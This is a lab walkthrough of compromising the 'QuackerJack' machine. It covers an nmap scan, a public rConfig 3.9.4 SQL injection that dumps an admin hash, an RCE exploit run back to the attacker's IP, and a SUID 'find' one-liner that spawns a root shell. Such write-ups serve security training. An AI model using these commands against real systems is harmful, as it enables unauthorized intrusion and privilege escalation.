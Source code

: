 # QuackerJack

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 192.168.233.57 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-30 16:48 +08
Nmap scan report for 192.168.233.57
Host is up (0.17s latency).
Not shown: 65527 filtered tcp ports (no-response)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3306/tcp open  mysql
8081/tcp open  blackice-icecap
```

### FTP Anonymous Fail

The FTP service does allow anonymous logins, but it just hangs:

```
$ ftp 192.168.233.57
Connected to 192.168.233.57.
220 (vsFTPd 3.0.2)
Name (192.168.233.57:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||32438|).
```

Nothing much there.

### SQL Injection --> RCE

Port 8081 was hosting an `rConfig` instance:

<figure><img src="../../../.gitbook/assets/image (178).png" alt=""><figcaption></figcaption></figure>

This version was vulnerable to a few exploits:

```
$ searchsploit rConfig 3.9.4
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
rConfig 3.9.4 - 'search.crud.php' Remote Command Injection | php/webapps/48241.py
rConfig 3.9.4 - 'searchField' Unauthenticated Root Remote  | php/webapps/48261.py
----------------------------------------------------------- ---------------------------------
```

The bottom one just didn't work, while the top one requires credentials to work. There a few other exploits that I found online, such as an SQL Injection here:

{% embed url="https://www.exploit-db.com/exploits/48208" %}

The above exploit was tested on Version 3.9.4, so it should work.

```
$ python3 sql.py https://192.168.233.57:8081
rconfig 3.9 - SQL Injection PoC
[+] Triggering the payloads on https://192.168.233.57:8081/commands.inc.php
[+] Extracting the current DB name :
rconfig
[+] Extracting 10 first users :
admin:1:dc40b85276a1f4d7cb35f154236aa1b2
```

The above hash is crackable on CrackStation.

<figure><img src="../../../.gitbook/assets/image (162).png" alt=""><figcaption></figcaption></figure>

We can then run the RCE exploit `48241.py`:

```
$ python3 48241.py https://192.168.233.57:8081 admin abgrtyu 192.168.45.161 21
```

<figure><img src="../../../.gitbook/assets/image (42).png" alt=""><figcaption></figcaption></figure>

We can then grab the user flag.

## Privilege Escalation

### Find SUID --> Root Shell

We can enumerate for SUID binaries on this machine:

```
bash-4.2$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/find
/usr/bin/chage
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/su
/usr/bin/sudo
/usr/bin/mount
/usr/bin/umount
/usr/bin/crontab
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/fusermount
/usr/sbin/unix_chkpwd
/usr/sbin/pam_timestamp_check
/usr/sbin/usernetctl
/usr/lib/polkit-1/polkit-agent-helper-1
/usr/libexec/dbus-1/dbus-daemon-launch-helper
```

We can run `find` as the `root` user. Following GTFOBins, we just need to run this:

```
./find . -exec /bin/sh -p \; -quit
```

<figure><img src="../../../.gitbook/assets/image (179).png" alt=""><figcaption></figcaption></figure>

Rooted!
